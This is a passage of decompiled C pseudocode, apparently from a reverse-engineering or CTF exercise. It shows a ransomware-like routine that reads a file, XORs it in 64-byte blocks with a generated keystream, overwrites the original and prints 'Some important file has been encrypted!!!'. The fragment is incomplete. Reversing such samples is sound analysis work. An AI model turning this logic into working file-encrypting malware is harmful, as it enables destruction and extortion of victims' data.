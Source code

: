 ```C=
    CloseHandle((HANDLE)0xFFFFFFFF);
    return 1;
  }
  else
  {
    FileSize = GetFileSize(FileW, 0);
    v20 = FileSize;
    v21 = (char *)malloc(FileSize);
    if ( ReadFile(v8, v21, FileSize, &NumberOfBytesRead, 0) )
    {
      v11 = malloc(FileSize);
      v22 = v11;
      sub_4013D0(v12, v30);
      v14 = 0;
      if ( FileSize > 0 )
      {
        v23 = v28;
        do
        {
          sub_401000(v26, v28, v13);
          ++v27;
          v15 = v14 + 64;
          if ( !__OFSUB__(v14, v14 + 64) )
          {
            v16 = v22;
            do
            {
              if ( v14 >= FileSize )
                break;
              v13 = &v16[v14];
              v17 = v23[v14] ^ v16[v14 + v21 - v22];
              ++v14;
              FileSize = v20;
              *v13 = v17;
              v16 = v22;
            }
            while ( v14 < v15 );
          }
          v23 -= 64;
          v14 = v15;
        }
        while ( v15 < FileSize );
        v11 = v22;
      }
      SetFilePointer(hFile, 0, 0, 0);
      if ( WriteFile(hFile, v11, FileSize, &NumberOfBytesWritten, 0) )
      {
        CloseHandle(hFile);
        sub_401590("Some important file has been encrypted!!!\n", (char)FileName);
        return 0;
      }
      else
      {
        sub_401590("Cannot Write File", v18);
        CloseHandle(hFile);
        return 1;
      }
    }
    else
    {
      sub_401590("Cannot Read File", v18);
      CloseHandle(v8);
      return 1;
```